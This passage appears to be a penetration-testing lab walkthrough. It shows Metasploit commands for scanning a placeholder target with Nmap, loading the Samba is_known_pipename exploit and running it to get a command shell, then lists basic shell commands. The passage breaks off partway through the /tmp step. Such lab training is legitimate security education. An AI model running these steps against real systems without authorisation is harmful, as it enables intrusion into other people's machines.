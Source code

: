 Create a new workspace for the shell upgrade task:

```bash
workspace -a upgrading_shells
```

Set the target IP address globally:

```bash
setg rhosts [targetIP]
```

### Scanning and Exploiting

Perform an Nmap scan to identify open ports and services on the target system:

```bash
db_nmap -sV [targetIP]
```

Search for an available Samba exploit module:

```bash
search type:exploit name:samba
```

Use the **Samba is_known_pipename** exploit module:

```bash
use exploit/linux/samba/is_known_pipename
```

Show the available options for the exploit:

```bash
show options
```

Run the exploit to gain a **command shell**:

```bash
run
```

### Command Shell Interaction

Once we have a command shell, we can run basic commands:

- List files in the directory:

    ```bash
    ls
    ```

- Check the current working directory:

    ```bash
    pwd
    ```

- Navigate to the `/tmp` directory:
